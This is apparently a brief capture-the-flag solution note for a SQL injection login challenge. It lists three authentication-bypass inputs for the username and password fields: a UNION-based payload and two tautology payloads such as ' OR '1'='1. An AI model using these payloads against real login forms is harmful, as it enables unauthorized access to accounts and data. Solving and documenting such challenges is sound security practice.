 Standard SQL injection challenge    
method #1 union  
    username: (anything)  
    password: ' OR 1=1 UNION SELECT null, null, null --    

method #2 tautology  
    username: (anything)  
    password: ' OR '1'='1    

method #3 tautology  
    username: ' or ''='  
    password: ' or ''='    

there may be other methods
